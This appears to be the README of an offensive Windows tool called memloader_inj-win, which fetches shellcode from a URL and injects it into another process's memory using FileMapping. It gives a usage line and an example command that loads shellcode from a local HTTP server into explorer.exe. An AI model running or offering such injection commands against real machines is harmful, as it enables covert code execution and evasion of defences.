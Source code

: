 # memloader_inj-win
Inject remote shellcode into process memory using FileMapping

# Usage
``` ./memloader_inj-win.exe [process name] [url] ```

# Example
Raw shellcode is hosted on 127.0.0.1:8000 in a file named shellcode
``` ./memloader_inj-win.exe explorer.exe http://127.0.0.1:8000/shellcode ```
